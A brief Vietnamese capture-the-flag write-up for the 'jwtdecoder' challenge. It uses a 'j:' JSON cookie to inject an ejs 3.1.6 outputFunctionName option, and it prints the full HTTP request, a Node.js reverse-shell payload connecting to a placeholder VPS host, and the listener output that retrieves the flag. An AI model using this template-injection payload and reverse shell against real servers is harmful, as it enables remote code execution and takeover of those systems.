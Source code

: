 # Solution

- Nodejs nếu ta truyền cookie ở dạng `j:{}` thì sau khi parse sẽ được một object
- ejs version 3.1.6 bị dính lỗi và có thể dấn đến RCE: <https://eslam.io/posts/ejs-server-side-template-injection-rce/>

HTTP request:

```
GET / HTTP/1.1
Host: jwtdecoder.sstf.site
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: jwt=j:{"settings":{"view options":{"outputFunctionName": "x%3beval(atob('<BASE ENCODE PAYLOAD>'))%3bs"}}}
If-None-Match: W/"711-lSeOr/4NNWw9/rKGxE5tnvF4xJI"
Connection: close
```

PAYLOAD
```
(function(){
	var x = global.process.mainModule.require
    var net = x("net"),
        cp = x("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(PORT, "VPS", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

Kết quả

```bash
Listening on 0.0.0.0 1337
Connection received on 3.36.5.38 35678
ls
app.js
node_modules
package-lock.json
package.json
view

cat /flag.txt
SCTF{p0pul4r_m0dule_Ar3_n0t_4lway3_s3cure}
```